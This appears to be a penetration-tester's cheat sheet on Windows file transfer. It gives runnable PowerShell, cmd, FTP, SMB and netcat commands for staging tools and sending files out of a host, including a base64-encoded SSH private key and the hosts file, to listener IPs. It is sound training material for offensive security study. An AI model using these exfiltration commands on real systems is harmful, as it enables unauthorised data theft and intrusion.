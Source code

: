 ```yaml
---
title: Windows File Transfer
tags: [download, upload, wget, curl]
tools: ['ftp', 'openssl', 'python', 'impacket-smb-server']
notes: "Various file transfer techniques for Windows/Active Directory"
---
```


# Windows File Transfer

## Download Operations

### PowerShell Base64 Encode & Decode

Windows Command Line utility (cmd.exe) has a maximum string length of  8,191 characters. Also, a web shell may error if you attempt to send  extremely large strings. 

**Encoding**

```bash
# Get file hash
md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

# Encode
cat id_rsa |base64 -w 0;echo
LS0tLS1CR ---SNIP--- tLS0tLQo=
```

**Decoding**

```powershell
# Decode
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CR ---SNIP--- tLS0tLQo="))

# Check and match hash
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             4E301756A07DED0A2DD6953ABF015278
```

---

### SMB Downloads

**Create share with impacket:**

`sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`

**Mount the share:**

`net use n: \\192.168.1.10\share /user:test test`

---

### Python FTP Server

**Start server:**

`sudo python3 -m pyftpdlib --port 21`

**Grab file:**

`(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`

---



## Upload Operations

### PowerShell Base64 Encode & Decode

**Encode File Using PowerShell:**

```powershell
# Encode file
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

IyBDb3B5cm ---SNIP--- YWxob3N0DQo=
# Get file hash
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```

**Decode Base64 String in Linux:**

```bash
# Decode file
echo IyBDb3B5cm ---SNIP--- YWxob3N0DQo= | base64 -d > hosts

# Check and match hash
md5sum hosts 

3688374325b992def12793500307566d  hosts
```

---

### PowerShell Web Uploads Base64

**Start the server:**

`python3 -m uploadserver`

**Upload file:**

```powershell
# Encode | Send
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))

Invoke-WebRequest -Uri http://192.168.1.10:8000/ -Method POST -Body $b64

# Catch with netcat and decode
nc -lvnp 8000

<base64> | base64 -d -w 0 > hosts
```

---

### Python FTP Uploads

**Start the server:**

`sudo python3 -m pyftpdlib --port 21 --write`

**PowerShell Upload:**

`(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`

**Create a Command File for the FTP Client to Upload a File**

```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.1.10

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

